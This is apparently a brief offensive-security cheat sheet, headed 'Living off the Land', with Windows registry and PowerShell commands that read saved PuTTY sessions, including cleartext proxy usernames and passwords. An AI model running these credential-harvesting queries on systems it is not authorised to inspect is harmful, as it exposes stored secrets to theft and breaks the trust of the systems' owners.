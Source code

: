 # Living off the Land

## 01 - Putty clear text proxy credentials

### 1.1 - Command Prompt

```
C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "HostName" /s

C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "UserName" /s

C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "PortNumber" /s

C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "PortForwardings" /s

C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "ProxyUsername" /s

C:\> reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /f "ProxyPassword" /s
```

### 1.2 - Powershell

```
PS C:\> Get-ItemProperty -Path HKCU:\Software\SimonTatham\PuTTY\Sessions
```